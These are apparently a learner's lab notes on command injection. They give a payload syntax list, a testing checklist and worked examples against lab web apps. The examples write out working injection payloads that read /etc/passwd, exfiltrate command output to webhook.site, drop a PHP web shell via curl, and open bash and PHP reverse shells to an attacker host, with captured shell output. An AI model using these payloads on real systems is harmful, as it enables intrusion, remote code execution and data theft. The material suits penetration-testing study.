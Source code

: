 # Command Injection

Application taking input from the user. Then passing the input to the function which executes as the code

Injection Type: 

1. Basic
2. Blind
3. Out of Band

<aside>
🚨

eval() is Evil. 
eval() is an executed function that process any data that pass to it.

</aside>

# Exploitation Syntax

Basic command chaining

`; ls -la`

Using logic operators

`&& ls -la`

Commenting out the rest of a command

`; ls -la #`

Using a pipe for command chaining

`| ls -la`

Testing for blind injection

`; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &`

Out-of-band testing

`& nslookup webhook.site/<id>?`whoami` &`

# **Checklist**

- [ ]  Determine the technology stack: Which operating system and server software are in use?
- [ ]  Identify potential injection points: URL parameters, form fields, HTTP headers, etc.
- [ ]  Test for simple injections with special characters like ;, &&, ||, and |. Test for injection within command arguments.
- [ ]  Test for blind command injection, where output is not returned in the response. If output isn't directly visible, try creating outbound requests (e.g. using ping or curl).
- [ ]  Try to escape from any restriction mechanisms, like quotes or double quotes.
- [ ]  Test with a list of potentially dangerous functions/methods (like exec(), system(), passthru() in PHP, or exec, eval in Node.js).
- [ ]  Test for command injection using time delays (ping -c localhost).
- [ ]  Test for command injection using &&, ||, and ;.
- [ ]  Test with common command injection payloads, such as those from PayloadsAllTheThings.
- [ ]  If there's a filter in place, try to bypass it using various techniques like encoding, command splitting, etc.

# Example-1 Command Injection

## Escaping Function

1. Command: curl -I -s -L <Input> | grep "HTTP/"
Input = https://google.com, we get: 

![image.png](image.png)

1. Try use Basic command chaining;
Input = https://google.com`; whoami`, we get: 

![image.png](image%201.png)

1. To escape from the | grep "HTTP/”, use echo;
input = `; whoami; echo 'null/'`, we get:

![image.png](image%202.png)

## Inject other Commands

1. Run other command; 
Input = `; cat /etc/passwd; echo 'a'`, we get:
NOTE: Use Ctrl+U (develop tool) for better view.
    
    ![image.png](image%203.png)
    

## Reverse shell connection

### Bash Shell

1. Learn the path of bash it use; 
Input = `; which bash; echo 'a'`, we get: Result: /bin/bash 
2. Use one line reverse bash_TCP shell
Input = `; /bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1; echo 'a’`  

<aside>
💡

When using command injection, try to use full path to binary. Plus common port.

</aside>

### PhP Shell

1. Learn the path of php it use; 
Input = `; which php; echo 'a'`, we get: Result:  /usr/local/bin/php 
2. Netcat listen on designated port
Listening on 0.0.0.0 4444 …
3. Use one line reverse PhP shell
Input = `; /usr/local/bin/php -r '$sock=fsockopen("<LHOST>",<LPORT>); exec("/bin/sh -i <&3 >&3 2>&3");'; echo 'a’` 
4. Receive the connection.
    
    Connection received on 172.18.0.4 36776
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ tail /etc/passwd
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    

# Example-2 Out of Bank Command Injection

In this case, the web application doesn’t give us the response directly, we need to direct and review it somewhere else.

1. Reuse the same syntax from previous example; we received Website OK, but the semi-colon is removed.

![image.png](image%204.png)

1. Utilize the [webhook](https://webhook.site/) to receive the HTTP request. Use different syntax to test it
Input = `https://webhook.site/8a2dda28-4ada-4424-889e-a911bd5e8489?`whoami``
2. Navigate to the url, find the command is executed and send to the target site.
    
    ![image.png](image%205.png)
    

### Reverse Shell Connection

1. Using `\n` and `wget` to download file from our server.
Input = https://google.com \n wget <HOST_IP>:<PORT>/<File>
    
    ![Command is executed, but it can’t download the file](image%206.png)
    
    Command is executed, but it can’t download the file
    
2. Use php reverse shell to make the connection
Input = https://google.com \n wget <HOST_IP>:<PORT>/<File>
3. Same result as last step; command is executed, but shell isn’t estblished.
    
    Serving HTTP on 0.0.0.0 port 8080 ([http://0.0.0.0:8080/](http://0.0.0.0:8080/)) ...
    172.18.0.4 - - [27/Jul/2025 17:38:50] "HEAD /link.php HTTP/1.1" 200 -
    172.18.0.4 - - [27/Jul/2025 17:39:57] "HEAD /link.php HTTP/1.1" 200 -
    
4. Use `&&` and `curl` this time to download the file.
Input = https://google.com && curl 192.168.182.163:8080/link.php > /var/www/html/link.php
5. Search http://link.php from out browser, and we will trigger the web server to execute our php shell.
    
    $ whoami
    www-data
    

# Challenge-1

Here’s the syntax of the Web application

- awk 'BEGIN {print sqrt(((-`User_input_1`)^2) + ((-`User_input_2`)^2))}’
1. Escape the bracket, run command, and comment out the rest
Input = )))}' ; whoami #
Result: www-data 
2. Because the page is run off the php file, let out full path of its php
Input = )))}' ; which php #
Result: /usr/local/bin/php 
3. Use netcat listen on port 4444. Run the one line php shell for connection
Input = )))}' ; /usr/local/bin/php -r '$sock=fsockopen("192.168.182.163",4444); exec("/bin/sh -i <&3 >&3 2>&3");' #
Result: 
    
    Listening on 0.0.0.0 4444
    Connection received on 172.18.0.4 56914
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $ hostname
    3d0a80465781